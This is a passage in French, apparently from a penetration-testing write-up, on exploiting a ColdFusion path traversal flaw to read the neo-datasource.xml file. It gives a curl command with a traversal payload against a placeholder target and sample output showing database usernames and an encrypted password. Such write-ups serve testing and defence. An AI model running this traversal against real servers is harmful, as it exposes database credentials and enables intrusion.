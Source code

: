 Extraction des identifiants de base de données
----------------------------------------------

Que peut-on faire avec cette vulnérabilité ? D'après un article baptisé [Attacking Adobe ColdFusion](https://pentest.tonyng.net/attacking-adobe-coldfusion/), on peut en profiter pour récupérer le contenu du fichier `[ColdFusion_Install_Dir]\lib\neo-datasource.xml` qui contient les identifiants pour les différentes bases de données utilisées par les sites configurés sur le serveur.  

Il faudra extraire le contenu utile du code HTML obtenu et le remettre un peu en forme pour qu'il soit lisible.  

```bash
curl -s "http://target/website/content.cfm?data=..\..\..\..\..\..\..\..\ColdFusion10\cfusion\lib\neo-datasource.xml" > dump.xml
```

Le contenu peut être rapidement énorme en fonction du nombre d'entrées, mais pour donner un aperçu, on obtiendra des infos ordonnées de cette façon :  

```html
<var name='web1dsn'>
    <struct type='coldfusion.server.ConfigMap'>
        <var name='alter'>
            <boolean value='true'/>
        </var>
        <var name='create'>
            <boolean value='true'/>
        </var>
        <var name='DRIVER'>
            <string>MySQL 4 and 5</string>
        </var>
        <var name='CLASS'>
            <string>com.mysql.jdbc.Driver</string>
        </var>
        <var name='url'>
            <string>jdbc:mysql://localhost:3306/web1db?noDatetimeStringSync=true&amp;zeroDateTimeBehavior=convertToNull</string>
        </var>
        <var name='username'>
            <string>web1user</string>
        </var>
        <var name='NAME'>
            <string>web1dsn</string>
        </var>
        <var name='grant'>
            <boolean value='true'/>
        </var>
        <var name='password'>
            <string>5j36qm2oMZhsQ+O056ZrC9xQOapvgYkcRtL687XUjkc=</string>
        </var>
        <var name='insert'>
            <boolean value='true'/>
        </var>
        <var name='timeout'>
            <number>120.0</number>
        </var>
    </struct>
</var>
```

